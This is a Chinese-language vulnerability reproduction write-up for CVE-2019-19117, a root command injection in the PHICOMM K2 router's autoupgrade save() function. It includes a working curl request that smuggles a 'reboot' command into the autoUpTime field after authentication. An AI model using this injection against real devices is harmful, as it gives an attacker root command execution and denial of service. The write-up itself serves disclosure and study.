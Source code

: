 ## 一、漏洞简介

通过修改HTTP post请求中的内容，在根shell上远程执行命令。

## 二、漏洞影响

PHICOMM K2(PSG1218) V22.5.9.163

## 三、复现过程

受影响的源代码文件：/usr/lib/lua/luci/controller/admin/autoupgrade.lua

受影响的函数：save（）

### 漏洞详情

首先，在通过Web登录身份验证，会话劫持漏洞或弱凭据破解攻击以获取访问权限后，向设备发送精心制作的数据包

```
curl -i -s -k -v -X'POST'  -e "http://192.168.2.1/cgi-bin/luci/;stok=xxx/xxx/xxx/xxx" -b "sysauth=4a2c4bdba5fb1273ce62759fd42dba42" --data-binary "mode=1&autoUpTime=02%3A05|reboot" 'http://192.168.2.1/cgi-bin/luci/;stok=xxx/admin/xxx/xxx/xxx'
```

在此http数据包中，我们将要执行“重新引导”的命令添加到数据包内容中。

![image](resource/CVE-2019-19117-PHICOMM远程代码执行/media/1-20201014111731659.png)

我们可以看到，将'autoUpTime'的值直接分配给变量，而无需检查该值是否被恶意修改，然后发送给服务器。

![image](resource/CVE-2019-19117-PHICOMM远程代码执行/media/2-20201014111731659.png)

然后，服务器直接将数据附加到命令，而无需检查数据是否也被恶意修改，从而使攻击者想要执行的命令附加到该命令。

最后，路由器将执行命令“ reboot”，这将导致DoS。